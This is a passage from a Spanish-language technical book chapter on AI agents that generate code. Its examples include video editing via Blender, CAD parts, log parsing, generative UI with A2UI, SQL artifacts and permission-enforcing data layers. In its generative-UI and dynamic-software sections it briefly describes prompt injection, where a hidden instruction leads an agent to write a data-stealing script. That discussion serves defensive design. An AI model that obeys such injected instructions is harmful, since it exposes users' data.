> **Criterios de aceptación**: Video de 5 a 15 minutos, donde el tiempo de visualización de cada página coincida con la duración del audio, y el contenido explicado se enlace con los elementos visuales.


**Agente de edición de video.**

Utilizar el control de computadoras (Computer Use) general para la edición de video enfrenta un desafío estructural: la GUI del software de edición de video es extremadamente compleja, conteniendo múltiples líneas de tiempo, capas y paneles de efectos. El Agente necesita ubicar con precisión estos elementos e interactuar mediante mouse y teclado, siendo extremadamente difícil emitir coordenadas exactas.

Reestructurar la edición de video como un problema de llamadas API y generación de código reduce drásticamente la complejidad. Muchos programas profesionales (como Blender, la herramienta de creación 3D y composición de video de código abierto compatible con scripts en Python; y FFmpeg, la navaja suiza en línea de comandos para el procesamiento de audio y video) proporcionan interfaces API programáticas que exponen funcionalidades centrales de forma estructurada y combinable. Por ejemplo, la API de Python de Blender permite controlar mediante código la importación, recorte, ordenación, efectos de transición y mezcla de audio de los fragmentos de video, donde cada operación corresponde a una llamada a función clara. Para un Agente, traducir necesidades en lenguaje natural a llamadas API es mucho más sencillo que comprender interfaces GUI y simular clics de mouse. De manera similar a la generación de PPT, la edición de video adopta el mecanismo Proponente-Revisor: el Proposer Agent genera scripts para Blender, y el Reviewer Agent renderiza fotogramas clave y los inspecciona con un Vision LLM para retroalimentar sugerencias de modificación.

> **Experimento 5-6 ★★: Edición inteligente de video basada en API**
>
> **Objetivo del experimento**: Verificar la capacidad del Agente para editar video mediante la generación de código para la API de Python de Blender, evaluando el papel del mecanismo Proponente-Revisor basado en retroalimentación visual en el procesamiento de contenido multimedia.
>
> **Desafíos centrales**: Comprender las demandas de edición en lenguaje natural del usuario y traducirlas en secuencias precisas de llamadas API, gestionar múltiples operaciones de edición (recorte, fusión, subtítulos, mezcla de pistas de audio, efectos visuales) y garantizar la ejecución correcta del script de Python generado. Tras escribir el código, el Proposer Agent no puede juzgar directamente el efecto del video, debiendo apoyarse en el Reviewer Agent para renderizar y revisar los fotogramas clave con un Vision LLM.
>
> **Solución técnica**: El usuario proporciona material de video (como tomas originales de surf, senderismo, esquí) y describe la necesidad en lenguaje natural (por ejemplo, "recorta la parte de surf"). El Proposer Agent utiliza un subagente de análisis de video con una **estrategia de localización en dos pasos**:
>
> **Primer paso, localización de grano grueso**: Invocar al subagente entregando la ruta del video, un intervalo de capturas de 10 segundos y la pregunta objetivo. El subagente usa `ffmpeg` para capturar fotogramas clave y los entrega junto con la pregunta al Vision LLM, devolviendo el intervalo de escena (por ejemplo, "el surf está entre los segundos 40 y 110").
>
> **Segundo paso, localización de grano fino**: Invocar nuevamente al subagente con un rango más estrecho y una densidad de captura de 1 segundo para fijar con precisión los marcas de tiempo de inicio y fin.
>
> Encapsular el análisis de video como un subagente evita que un gran volumen de capturas ocupe el contexto del Agente principal. Tras la localización se genera el script para la API de Blender. El Reviewer Agent ejecuta una vista previa rápida, revisa los fotogramas clave y aporta sugerencias, iterando hasta cumplir el estándar para proceder al renderizado completo.
>
> **Criterios de aceptación**: El Agente identifica con precisión diferentes escenas en el video y genera el script de edición correcto según las instrucciones. Los puntos de inicio y fin son precisos (error inferior a 3 segundos). Si las instrucciones incluyen efectos (cámara lenta, transiciones, subtítulos), el video generado los aplica correctamente. El Reviewer Agent detecta errores evidentes (omisión de contenido clave, inclusión de fragmentos no relacionados) y activa correcciones. El archivo de video final presenta un formato e imagen conforme a lo esperado.

**3D y piezas industriales: la frontera entre la generación de código y los modelos generativos.**

Ante una misma petición de «generar algo», el Agente tiene dos caminos: uno es construirlo con precisión escribiendo código (CadQuery, OpenSCAD, la API de Blender), y el otro es invocar directamente un modelo de generación 3D (modelos text/image-to-3D como Hunyuan 3D, pertenecientes a la misma familia de diffusion que la generación de imágenes a partir de texto). A muchas personas les asalta la duda: ¿cuándo conviene usar generación de código y cuándo un modelo de generación de imágenes o 3D?

**Primero: comprobar si el producto admite una descripción precisa y compacta.** Las piezas industriales poseen de forma natural una descripción precisa y compacta. Una brida queda completamente definida por cinco o seis parámetros—diámetro exterior, espesor, diámetro del círculo de taladros, diámetro de los orificios y número de orificios—y el código es su expresión **sin pérdidas**. Una planta en maceta, una roca de Taihu o un rostro humano son cosas distintas: tienen detalles incontables y su **complejidad intrínseca es prácticamente infinita**.

**Segundo: comprobar los requisitos de precisión y la verificabilidad.** Cada dimensión de una pieza es una restricción estricta—un orificio de 5 mm con una tolerancia de ±0,05 mm, donde la más mínima desviación la convierte en un desecho. La pieza generada por código puede verificarse programáticamente: se carga la malla, se miden el diámetro exterior y la posición de los taladros, y se contrastan uno a uno con la especificación. En cambio, la pieza producida por un modelo de generación 3D no puede contrastarse directamente con la especificación.

Los dos caminos difieren además en algo más práctico: la **forma de representación y la editabilidad**. El proceso de fabricación exige sólidos paramétricos en B-rep (representación de fronteras): el archivo STEP almacena el árbol de características y los parámetros dimensionales, y puede accionar directamente el mecanizado CNC. Lo que produce el modelo de generación 3D es una malla de triángulos: las superficies curvas se aproximan con innumerables caras diminutas, que al ampliarlas se ven llenas de baches. Cuando el cliente dice «cambia los orificios de montaje de M5 a M6», la diferencia queda a la vista: en la ruta de código basta cambiar un número y volver a ejecutar, y el resto de las dimensiones no varía ni un ápice; en la ruta del modelo generativo solo cabe regenerar el conjunto completo—que las demás dimensiones se desvíen o no queda librado a la suerte.

Por tanto, elegir el camino es en sí mismo una decisión que el Agente debe tomar: sopesar la complejidad intrínseca del producto y sus requisitos de precisión, y asignar la tarea a la generación de código o al modelo de generación 3D. En los sistemas reales ambos caminos pueden combinarse—la geometría se genera de forma paramétrica con código y la textura de superficie se confía al modelo generativo, aprovechando lo mejor de cada uno.

> **Experimento 5-7 ★★: Dos rutas de generación para una misma pieza—código frente a modelo generativo**
>
> **Objetivo del experimento**: Tomar una misma pieza mecánica con especificación dimensional y comparar las rutas de generación por código y por modelo de generación 3D en cuanto a precisión dimensional, editabilidad y aptitud para la fabricación, verificando el marco de decisión de «elegir la ruta según la complejidad intrínseca y los requisitos de precisión».
>
> **Solución técnica**: Una necesidad en lenguaje natural con especificación explícita (por ejemplo, «brida con diámetro exterior de 80 mm, espesor de 10 mm, 4 orificios de montaje M5 uniformemente distribuidos en un círculo de taladros de 60 mm de diámetro»). **Ruta A**: el Agente escribe código CadQuery (u OpenSCAD) para construir la pieza y exporta STEP y STL. **Ruta B**: entregar la misma especificación a un modelo de generación 3D (como Hunyuan 3D) para obtener una malla de triángulos. **Verificación programática**: medir las desviaciones respecto a la especificación de las dimensiones clave de los productos de ambas rutas (diámetro exterior, espesor, posición y diámetro de los orificios) y comprobar la planeidad de la superficie de montaje.
>
> A continuación se emite la petición de cambio «orificios de montaje de M5 a M6» y se registra el coste de modificación de cada ruta: la ruta de código cambia un parámetro y vuelve a ejecutarse; la ruta del modelo generativo solo puede regenerar el conjunto completo, sin garantía de que las demás dimensiones se mantengan inalteradas.
>
> **Grupo de control**: Generar una planta en maceta; la superioridad de las dos rutas se invierte con exactitud—la ruta de código resulta rígida y artificiosa incluso añadiendo ruido procedural, mientras que la ruta del modelo generativo resulta natural y vívida.

### El código como adaptador del sistema

La mayoría de los códigos de las secciones anteriores producían artefactos "orientados a humanos": informes, presentaciones, interfaces. El código de esta sección apunta en otra dirección: **conectar máquina con máquina**. En los sistemas reales, los servicios externos con los que debe interactuar el Agente suelen carecer de SDK listos para usar y sus interfaces no siempre están estandarizadas: documentación ausente, formatos de respuesta no estándar o campos que derivan entre versiones. Ante estas situaciones, el Agente no necesita esperar a que un humano escriba previamente una capa de adaptación, sino que puede leer la documentación de la interfaz o observar directamente una o dos respuestas reales para generar en el acto código de adaptación: construyendo clientes HTTP, ensamblando encabezados de autenticación, parseando estructuras de retorno no estándar y traduciendo los modelos de datos ascendentes a la forma que puede consumir la cadena descendente. El código actúa aquí como un "pegamento universal" para conectar cualquier sistema: donde no hay empalme, se genera un fragmento de pegamento en el sitio para unirlo, representando el núcleo de la metacapacidad en la dirección de "interfaces del sistema". El parseo adaptativo de registros que se detalla a continuación es la concreción de esta capacidad en escenarios de observabilidad: ante formatos de registros en continua evolución, el Agente se adapta generando código de parseo sobre la marcha.

Este "pegamento universal" se puede extender incluso a **sistemas que carecen por completo de API**: cuando un sistema externo solo expone una interfaz gráfica, el Agente puede operar primero la interfaz mediante control de computadoras (Computer Use, detallado en el Capítulo 6), y luego consolidar la secuencia de operaciones exitosa como una herramienta RPA en código. En futuras ejecuciones de la misma tarea, se ejecutará directamente el código a altísima velocidad y estabilidad, sin necesidad de recurrir a la costosa inferencia visual. Se puede decir que RPA representa la forma extrema del "adaptador del sistema" en sistemas sin API; este mecanismo de "grabación y consolidación de flujos de trabajo" se desarrollará en el Capítulo 9.

El procesamiento de datos representa una de las tareas más comunes pero también más complejas en los sistemas de software, debido a la diversidad y continuo cambio en los formatos de datos. Un mismo sistema puede modificar su formato de datos múltiples veces durante su evolución: añadiendo campos, cambiando estructuras anidadas o introduciendo nuevos tipos. Escribir código de parseo a mano para cada formato genera un costo de mantenimiento altísimo, requiriendo actualizar la lógica, probar compatibilidades y desplegar nuevas versiones con cada cambio de formato.

La generación de código ofrece un enfoque completamente nuevo: permitir que el Agente genere código de parseo temporal basado en muestras de datos al encontrar un nuevo formato, adaptándose automáticamente a la evolución de los datos sin intervención humana.

**Parseo y visualización adaptativa de registros del Agente.**

La observabilidad de los sistemas de Agentes depende de la visualización de sus flujos de ejecución. Una tarea compleja de un Agente puede contener cientos de pasos, involucrando múltiples llamadas a LLM, docenas de ejecuciones de herramientas e interacciones entre múltiples subagentes. Visualizar estos datos plantea múltiples desafíos: diferentes herramientas devuelven datos con estructuras distintas, los formatos evolucionan continuamente con las iteraciones del sistema, y una trayectoria completa puede contener cientos de miles de caracteres, requiriendo un equilibrio entre la visión general y los detalles.

La generación de código ofrece una solución elegante: establecer un bucle de retroalimentación de autorreparación. Cuando el frontend encuentra un formato de registro que no puede parsear, en lugar de mostrar un error, reporta automáticamente la información de falla (muestra del registro original, error detallado) al Agente. El Agente analiza la estructura de los datos de muestra y genera código de frontend capaz de parsearlos correctamente. El código se prueba automáticamente en un navegador virtual (verificando la corrección del parseo y revisando el efecto visual con un Vision LLM), y tras aprobar se despliega mediante actualización en caliente en el sistema frontend.

> **Experimento 5-8 ★★★: Sistema adaptativo de parseo de logs**
>
> **Objetivo del experimento**: Construir un sistema de visualización de registros de Agentes capaz de autoevolucionar.
>
> **Solución técnica**: El sistema inicial solo admite formatos básicos. Detección de fallos de parseo en frontend → reporte al Agente → generación de código de parseo → pruebas en navegador virtual → despliegue por actualización en caliente. Proceso 100% automatizado.
>
> **Criterios de aceptación**: Detectar fallos automáticamente y activar el aprendizaje, generar código que supere las pruebas automáticas y parsear correctamente los nuevos formatos tras la actualización en caliente.

**Análisis automático de registros de ejecución de Agentes y diagnóstico de problemas.**

Los Agentes en entornos de producción generan un gran volumen de registros de trayectoria (trajectory: registro del proceso completo de cada tarea). Sin embargo, identificar problemas, localizar causas raíz y construir casos de prueba a partir de los registros representa un trabajo de alto costo. Localizar problemas es difícil porque los fallos de las tareas pueden derivar de errores coordinados entre múltiples módulos; el costo de reproducción es alto porque la complejidad del entorno de producción es difícil de simular en entornos de prueba; y los problemas solucionados tienden a reaparecer por falta de pruebas de regresión sistemáticas.

La generación de código ofrece una ruta automatizada para el diagnóstico. El Agente puede leer registros de producción y combinarlos con documentos de arquitectura y PRD (documentos de requisitos de producto) para juzgar automáticamente si el flujo de ejecución cumple con lo esperado, localizando los módulos y eslabones con problemas. Basándose en los resultados del análisis, genera informes de problemas estructurados (prioridad, módulo, descripción, sugerencias de mejora) y casos de prueba de regresión (los casos de prueba referencian el ID de trayectoria y los turnos de interacción clave, y el marco de pruebas los reproduce automáticamente para verificar si el sistema corregido produce el comportamiento adecuado ante la misma entrada). Finalmente, el Agente se conecta con GitHub a través de MCP para crear incidencias (Issues) y asignarlas a los desarrolladores correspondientes, completando la automatización integral desde el descubrimiento del problema hasta la asignación de la tarea.

> **Experimento 5-9 ★★★: Sistema de diagnóstico inteligente para logs de producción**
>
> **Objetivo del experimento**: Descubrir problemas automáticamente a partir de trayectorias de producción, generar casos de prueba y crear elementos de trabajo.
>
> **Solución técnica**: El Agente lee colecciones de trayectorias en entornos de producción y las analiza junto con documentos de arquitectura y PRD: identificando patrones de problemas y localizando módulos involucrados. Genera informes estructurados de incidencias (prioridad, módulo, descripción, recomendaciones) y casos de prueba de regresión automatizados (referenciando el ID de trayectoria y turnos de interacción, reproducidos por el marco de pruebas). Crea incidencias automáticamente en GitHub mediante MCP.


### El código como UI generativa (Generative UI)

Los sistemas de Agentes tradicionales dependen principalmente del diálogo en texto plano para interactuar con los usuarios. Sin embargo, el texto como modalidad lineal y única resulta ineficiente en muchos escenarios. Al recopilar información estructurada, las preguntas y respuestas repetidas alargan innecesariamente la conversación; al presentar relaciones de datos complejas, la capacidad de expresión del texto plano es limitada; y al requerir que el usuario seleccione entre múltiples opciones, una lista de texto es mucho menos intuitiva que una interfaz visual.

La generación de código permite superar estas limitaciones: el Agente puede generar dinámicamente formularios, gráficos interactivos e incluso aplicaciones Web completas, transformando el diálogo en texto estático en una rica interacción multimodal. Este patrón de interfaces generadas dinámicamente por el Agente se denomina **UI generativa** (Generative UI).

**Protocolos tipo A2UI: Estandarización de la UI generativa.**

Cuando el Agente genera código HTML y JavaScript directamente como UI, surge un problema de seguridad fundamental: el código generado puede contener elementos maliciosos. Por ejemplo, si un atacante esconde una instrucción en la entrada, el Agente podría ser manipulado mediante inyección de prompts para generar sin saberlo un script que robe datos del usuario. Conviene clarificar la causa y el efecto: la causa es la **inyección de prompts** (instrucciones maliciosas mezcladas en la entrada del Agente), mientras que el **efecto** final de ejecutar scripts maliciosos en el navegador robando datos se asemeja al XSS (Cross-Site Scripting, secuencias de comandos en sitios cruzados) de la Web tradicional, sin que se deba denominar a todo el ataque directamente como XSS. Los protocolos de interfaz declarativa representados por A2UI (Agent-to-User Interface) ofrecen una dirección más segura: el Agente no genera código ejecutable directamente, sino que emite una "lista de descripción de interfaz" (en formato JSON), como "por favor muestre una tabla con 3 filas y 2 columnas con el título 'Datos de ventas'". Al recibir la lista, el cliente utiliza sus componentes seguros previamente preparados para renderizar la interfaz. Es similar al menú de un restaurante: el cliente (Agente) solo puede pedir platillos presentes en el menú (componentes predefinidos), sin poder entrar a la cocina a cocinar él mismo (ejecutar código arbitrario). Conviene aclarar una confusión común: aunque AG-UI (Agent-User Interaction, propuesto por CopilotKit) tiene un nombre similar, no es un lenguaje de descripción de interfaces, sino un **protocolo de eventos/transporte** complementario encargado de enviar en streaming los estados de ejecución del Agente (mensajes, llamadas a herramientas, parches de estado) al frontend, pudiendo transportar cargas de interfaz como A2UI. Por lo tanto, ambos son complementarios y no de la misma categoría, no debiéndose listar como el mismo tipo de "protocolo de interfaz declarativa".

El principio de diseño central de estos protocolos es la **prioridad de seguridad**: el cliente mantiene un catálogo de componentes confiables (como Card, Button, TextField, Table), y el Agente solo puede solicitar renderizar componentes existentes en el catálogo, sin poder inyectar código arbitrario. El cliente renderiza utilizando sus componentes nativos en lugar de ejecutar HTML arbitrario generado por el Agente. Estos protocolos suelen admitir además la propiedad de ser **multiplataforma** (la misma descripción se renderiza en React, Flutter o aplicaciones nativas) y la **generación incremental** (formato JSONL en streaming, renderizando a medida que se recibe).

Por supuesto, el enfoque declarativo es adecuado para escenarios de interacción estandarizados (formularios, tablas, tarjetas), mientras que para necesidades altamente personalizadas (como visualizaciones a medida o interfaces de juegos), la generación directa de código sigue siendo la opción más flexible. A continuación se presentan las aplicaciones concretas de ambos modos.

**Entregar resultados mediante HTML: Reemplazando los informes en Markdown.** La UI generativa no solo se utiliza durante el proceso de interacción, sino que está cambiando la forma en que el Agente **entrega sus resultados finales**. Tradicionalmente, tras completar una tarea, el Agente solía emitir un informe en Markdown; pero leer páginas de Markdown organizadas linealmente resulta poco ágil. A medida que la capacidad del Agente para generar código frontend se fortalece, cada vez más prácticas optan por hacer que emita directamente HTML. Comparado con Markdown, los artefactos entregados en HTML presentan ventajas claras. En primer lugar, la **demostración interactiva**: se puede mostrar directamente cómo funciona el sistema de forma operable, algo que el usuario comprende de un vistazo superando grandes bloques de texto. En segundo lugar, **mejor visualización de datos**: presentando datos mediante gráficos interactivos en lugar de tablas, permitiendo al usuario explorar, filtrar y profundizar en los detalles que le interesan. En tercer lugar, **artefactos de entrega continuamente perfeccionables**: un sitio HTML no tiene por qué ser un producto estático emitido al final de la tarea, sino una documento vivo que el Agente complementa y perfecciona a medida que avanza el trabajo.

Tomando como ejemplo la experiencia del autor al escribir artículos académicos: para cada proyecto de investigación el autor mantiene un sitio web interactivo[^ch5-4], el cual actúa tanto de entrega final como de documento vivo durante la investigación, haciendo que el Agente lo actualice continuamente con los avances de los experimentos. Este sitio web cumple al menos tres funciones. La primera es la **trazabilidad de datos experimentales**: los datos concretos de cada experimento, los prompts utilizados y las respuestas originales del LLM se pueden consultar elemento por elemento en el sitio; al exponer esto, resulta más fácil descubrir problemas en la construcción, formato o distribución de los datos, así como desviaciones sistemáticas entre las respuestas del LLM y las evaluaciones del judge. La segunda es el **monitoreo de indicadores de entrenamiento**: listar las curvas del proceso de entrenamiento directamente en la página web permite verificar en cualquier momento si los **indicadores de medicina interna** del modelo son saludables. Utilizando la metáfora médica de "medicina interna", estos indicadores se refieren a las señales internas que reflejan si el proceso de entrenamiento se desarrolla con normalidad (por ejemplo, la pérdida de entrenamiento y validación, la norma del gradiente, la tasa de aprendizaje y la perplejidad / perplexity al generar tokens, que mide la "certeza" del modelo sobre su contenido), así como las recompensas, la divergencia KL y la entropía de la política en aprendizaje por refuerzo. Se diferencian de los indicadores de resultados finales como la precisión de la tarea: al igual que los parámetros fisiológicos en un chequeo médico revelan el estado de una persona, los indicadores de medicina interna permiten detectar tempranamente problemas como la falta de convergencia en la pérdida, explosión de gradientes o colapso en el entrenamiento. La tercera es la **demostración de principios de funcionamiento**: presentando visualmente la estructura y principios de funcionamiento del sistema, permitiendo comprender de un vistazo cómo está construido el sistema basado en IA.

[^ch5-4]: El sitio web de proyectos de investigación del autor se encuentra en https://01.me/research/ , donde cada proyecto cuenta con un sitio web interactivo actualizado continuamente.

**Clarificación de la intención del usuario.**

Cuando las necesidades del usuario se expresan de forma ambigua o incompleta, el Agente requiere hacer preguntas de clarificación para recopilar la información necesaria. Productos como OpenAI Deep Research suelen utilizar preguntas y respuestas en texto, lo que presenta limitaciones claras: en eficiencia, cada pregunta requiere una ronda de diálogo, necesitando diez rondas para diez puntos; en expresividad, existen relaciones de dependencia entre ciertas preguntas (por ejemplo, elegir el "destino de viaje" afecta a las opciones disponibles de "medio de transporte"), siendo difícil expresar estas relaciones en cascada en texto plano.

Mediante la generación de código, el Agente puede crear interfaces de interacción estructuradas para sustituir las preguntas y respuestas en texto. La Figura 5-8 muestra el flujo de generación de formularios dinámicos, ilustrando cómo el Agente traduce las preguntas de clarificación en una interfaz estructurada de llenado único. El Agente genera un formulario HTML que contiene diversos controles de entrada: cuadros de texto para información abierta, menús desplegables para seleccionar entre opciones predefinidas, casillas de verificación para selección múltiple y selectores de fecha para simplificar la entrada de tiempos. Más aún, el Agente puede generar formularios en cascada mediante lógica en JavaScript: mostrando u ocultando preguntas posteriores automáticamente según la opción seleccionada, y actualizando dinámicamente las opciones disponibles. El usuario llena todo el formulario de una sola vez sin requerir múltiples rondas de diálogo, pudiendo observar claramente toda la información a completar y la relación lógica entre las preguntas.


> **Experimento 5-10 ★★: Sistema de clarificación de intención con formularios dinámicos**
>
> **Objetivo del experimento**: Verificar la capacidad del Agente para clarificar la intención del usuario generando dinámicamente formularios HTML.
>
> **Solución técnica**: El Agente analiza la solicitud del usuario, identifica los puntos a clarificar y genera el código de un formulario con lógica en cascada. El frontend lo renderiza, el usuario lo envía en un solo paso y el Agente parsea los datos JSON para continuar la tarea.
>
> **Criterios de aceptación**: El usuario ingresa "Quiero reservar un pasaje de avión a Pekín", y el Agente genera un formulario que contiene: Ciudad de origen (cuadro de texto), Fecha de salida (selector de fecha), Tipo de viaje (selección única: Solo ida / Ida y vuelta) y Fecha de regreso (visible únicamente si se selecciona "Ida y vuelta"). El usuario completa toda la información en un solo envío.

**Generación de consultas SQL.**

Las consultas a bases de datos representan un escenario donde la generación de código puede elevar significativamente la experiencia de interacción. El acceso tradicional a bases de datos depende de herramientas GUI o código SQL escrito a mano, siendo el primero laborioso en operaciones y el segundo exigente en conocimientos profesionales. El Agente puede traducir el lenguaje natural a SQL, pero aquí se plantea una decisión de diseño clave: ¿debe el Agente ejecutar el SQL y describir el resultado en lenguaje natural, o debe generar el código SQL como un artefacto (Artifact) para que el frontend lo ejecute directamente?

La primera opción parece más "inteligente", pero es sumamente ineficiente: los resultados de una consulta pueden contener tablas de miles de filas, y hacer que el LLM las lea para describirlas en texto no solo consume una gran cantidad de tokens y tiempo, sino que al "copiar" datos el LLM es muy propenso a cometer errores. La mejor solución es el **Modo Artifact**. La Figura 5-9 muestra el flujo de trabajo de un Agente de consultas SQL: el Agente no lee los datos por sí mismo, sino que genera un fragmento de código de consulta SQL y lo entrega al sistema como un **producto ejecutable independiente** (Artifact). El sistema toma ese SQL, consulta directamente la base de datos y renderiza los datos obtenidos en una tabla visible para el usuario. En todo el proceso, los datos van directamente desde la base de datos a la interfaz de usuario, omitiendo por completo al LLM como "intermediario": el LLM solo se encarga de escribir la consulta sin tener que leer ni retransmitir miles de filas de datos, logrando una operación rápida y precisa.

El SQL y el código de visualización generados no deben ejecutarse directamente. La capa de ejecución debe usar credenciales de base de datos de solo lectura, analizar el SQL, permitir únicamente sentencias `SELECT` aprobadas y rechazar DDL, DML y consultas con varias sentencias. Los valores proporcionados por el usuario deben enlazarse mediante parámetros del lado del servidor, con límites para el tiempo de consulta, las filas devueltas, las tablas accesibles y los rangos de fechas. El código de visualización debe ejecutarse en un sandbox aislado de la red y del sistema de archivos y producir únicamente un formato de resultado aprobado. El patrón Artifact acorta el recorrido de los datos, pero no sustituye las comprobaciones de autorización ni el aislamiento de la ejecución.


Más aún, el Agente puede generar dos Artifacts formando una canalización: consulta SQL + código de visualización (como un gráfico de barras). El frontend entrega los resultados de SQL directamente al código de visualización, mientras el LLM solo se encarga de generar el código sin intervenir en la transferencia de datos, lo que representa la esencia del código como interfaz.

> **Experimento 5-11 ★★: Agente ERP con interacción en lenguaje natural**
>
> El software ERP (Planificación de Recursos Empresariales) es un sistema crítico en las empresas que actualmente suele utilizar interfaces GUI con múltiples clics de mouse. Un Agente de IA puede traducir consultas en lenguaje natural del usuario a sentencias SQL para lograr consultas automatizadas.
>
> Se requiere crear una base de datos PostgreSQL con dos tablas: (1) Tabla de empleados, que contiene ID de empleado, nombre, departamento, nivel, fecha de ingreso y fecha de salida (vacío indica empleado activo); (2) Tabla de salarios, que contiene ID de empleado, fecha de pago y salario (un registro mensual por empleado). El Agente responderá automáticamente a:
>
> 1. ¿Cuál es la antigüedad promedio de los empleados?
> 2. ¿Cuántos empleados activos tiene cada departamento?
> 3. ¿Qué departamento tiene el nivel promedio de empleados más alto?
> 4. ¿Cuántas personas ingresaron este año y el año pasado en cada departamento?
> 5. ¿Cuál fue el salario promedio en el departamento A entre marzo de hace dos años y mayo del año pasado?
> 6. ¿El salario promedio del año pasado fue mayor en el departamento A o en el departamento B?
> 7. ¿Cuál es el salario promedio por nivel de empleado este año?
> 8. ¿Cuál es el salario promedio del último mes para empleados con antigüedad menor a un año, entre uno y dos años, y entre dos y tres años?
> 9. ¿Quiénes son los 10 empleados con mayor incremento salarial del año pasado a este año?
> 10. ¿Existen salarios atrasados (empleados activos en un mes determinado que no recibieron pago)?

**Generación dinámica de software.**

La aplicación extrema de la capacidad de generación de código consiste en permitir que el Agente cree software de forma completamente dinámica desde cero. La experiencia "Imagine with Claude" de Anthropic mostró los límites de esta posibilidad: el usuario expresa una necesidad, Claude genera la interfaz frontend y la lógica de interacción en tiempo real, el usuario interactúa con el software generado, y Claude modifica el código generando nuevas interfaces para mostrar los resultados de las operaciones. En todo el proceso, el usuario observa una aplicación que nace desde cero y evoluciona continuamente.

Sin embargo, este modo completamente dinámico presenta costos y latencias elevados, siendo más adecuado como un experimento para mostrar límites de capacidad. Una dirección más práctica es la **personalización basada en marcos existentes**. Este modo de "semipersonalización" conserva la estabilidad del software base al tiempo que abre el control al usuario en dimensiones específicas: el usuario indica "cambia el botón a azul", "añade un menú rápido en la barra lateral" o "modifica la fuente a un estilo más legible", el Agente comprende la necesidad y modifica el código frontend, y el reemplazo térmico de módulos (HMR, Hot Module Replacement: reemplazo local en caliente que conserva el estado de la aplicación sin refrescar la página completa) surte efecto de inmediato. Esto transforma productos estandarizados "talle único" en experiencias personalizadas únicas para cada usuario.

> **Experimento 5-12 ★★: Sistema de personalización conversacional de interfaces**
>
> **Objetivo del experimento**: Lograr que el usuario personalice instantáneamente la interfaz del software mediante diálogo en lenguaje natural, verificando la efectividad de la generación de código respaldada por mecanismos de reemplazo térmico para ofrecer experiencias de usuario personalizadas.
>
> **Solución técnica**: Construir una aplicación de chatbot base (frontend en React + backend en FastAPI), ejecutándose ambos en modo de desarrollo con soporte de reemplazo térmico (HMR en React, reload en FastAPI). El usuario expresa necesidades de personalización de UI en el diálogo (colores, fuentes, maquetación, posición de componentes), y el Agente modifica el código de forma autónoma. El mecanismo de reemplazo térmico detecta automáticamente los cambios en los archivos, el frontend recompila y refresca, y el usuario observa los cambios en tiempo real en la interfaz. Admite personalización iterativa en múltiples rondas.

El software dinámico cambia la premisa de seguridad tradicional junto con su flexibilidad. Antes, el código de negocio de la aplicación se desarrollaba, revisaba, probaba y desplegaba, y después permanecía relativamente estable; por eso las comprobaciones de autorización solían vivir en la capa de aplicación. Cuando un Agente puede generar o reescribir en cualquier momento las interfaces, los flujos de trabajo e incluso el código de acceso a datos, esa capa deja de ser estable. El código recién generado puede omitir una comprobación sutil, exponer un campo antes oculto o esquivar una comprobación existente mediante otra ruta de llamada. Ya sea por un error normal de generación o por código peligroso producido tras una inyección de prompts, el resultado es el mismo: el límite de permisos que debía mantener el código de negocio puede romperse silenciosamente.

Por tanto, el objetivo de seguridad del software dinámico no puede ser «asegurarse de que la IA escriba correctamente cada comprobación de autorización». Debe ser que **las restricciones de permisos sigan siendo imposibles de eludir incluso cuando la IA escriba código incorrecto**. Si las comprobaciones de autorización viven dentro de la lógica de negocio generada dinámicamente, comparten el mismo dominio de confianza que el código que deberían limitar. Los prompts, las pruebas y la revisión de código reducen la tasa de errores, pero no pueden cubrir exhaustivamente todas las rutas de ejecución que introduzcan generaciones futuras ni servir como límite de seguridad final.

Una arquitectura más robusta **desplaza el límite de confianza hacia la capa de datos**. El código de aplicación generado dinámicamente puede encargarse de la presentación, los flujos de trabajo y la orquestación, mientras un mecanismo estable y revisado por humanos aplica las reglas que determinan quién puede hacer qué con cada dato. La seguridad a nivel de fila de la base de datos puede restringir a cada usuario a los registros de su propio inquilino; las restricciones y los validadores pueden rechazar estados ilegales; y las vistas, los procedimientos almacenados o los servicios de acceso controlados pueden exponer solo operaciones aprobadas. Cada lectura y escritura también debe llevar un **contexto de acceso** vinculado por un entorno de ejecución confiable, que incluya el usuario, el inquilino, el rol o la identidad del Agente. El código generado recibe únicamente esa identidad acotada: no puede falsificarla ni obtener credenciales privilegiadas que evadan las reglas. Aunque omita su propia comprobación, la capa de datos rechazará la operación no autorizada.

Desplazar la autorización hacia abajo no significa colocar toda la lógica de negocio en la base de datos. La capa de aplicación puede seguir realizando comprobaciones previas para ofrecer una respuesta rápida, pero la capa de datos debe conservar la autoridad de decisión final. La misma regla puede mejorar la experiencia arriba y proporcionar una garantía abajo. Para ello, todas las rutas de acceso a datos deben pasar por la capa de datos confiable; el código generado no debe poder conectarse directamente para rodearla. Así, la capa superior puede cambiar continuamente mientras las restricciones de permisos no negociables permanecen en una capa que no se regenera con cada solicitud. Esta es la capa de datos del esqueleto de tres capas del capítulo 1: la más difícil de esquivar.

> **Experimento 5-13 ★★★: Objetos de datos con permisos integrados para software dinámico**
>
> **Objetivo del experimento**: Construir un almacén de objetos que permita generar o reescribir dinámicamente el código de la aplicación y que, aun así, aplique autorización e integridad de datos en la capa de datos. Verificar que el código generado no pueda atravesar el límite estable omitiendo una transición de estado, escribiendo un valor fuera de rango o leyendo datos de otros inquilinos.
>
> **Solución técnica**: Proporcionar una capa middleware de almacén de objetos Python sobre PostgreSQL. Los tipos de datos declaran sus reglas de permisos, el contexto de acceso, los validadores, las relaciones y las reacciones; cada lectura o escritura de un objeto pasa sucesivamente por la canalización de permisos y validación, la persistencia, las comprobaciones de integridad referencial, etc.
>
> **Criterios de aceptación**: Una actualización válida del flujo de contratación debe completarse; la capa de datos debe rechazar el salto de estado de un candidato, un salario fuera del rango del puesto y una lectura entre inquilinos.

### El código creando código: Autoinicio del Agente (Agent Bootstrapping)

Las secciones anteriores mostraron las aplicaciones de la generación de código en diversos dominios: desde el pensamiento matemático hasta la creación de documentos y la personalización de interfaces. Si llevamos estas capacidades al límite, surge una pregunta natural: ¿Puede un Agente utilizar su capacidad de generación de código para crear otro Agente?

Conviene delimitar primero la división del trabajo con el Capítulo 9. Esta sección analiza cómo un Coding Agent utiliza el código para **reparar y crear Agentes de su misma especie**: autorreparación, autorreplicación y generación a demanda de nuevos Agentes, enfocándose en la generación de código y en la construcción del sistema, lo que se denomina **autoinicio** (bootstrapping). El enfoque del Capítulo 9 no es volver a explicar cómo escribir este código, sino cómo activar la automodificación a partir de la experiencia operativa evaluada: seleccionando documentos de conocimiento, instrucciones, programas o parámetros como objetos de actualización, generando versiones candidatas a partir de versiones estables y controlando riesgos mediante regresión, despliegues canario y reversiones. Ambas secciones se cruzan en la "modificación de código", pero responden a preguntas distintas.


**La autorreparación del Agente: OpenClaw Doctor.**

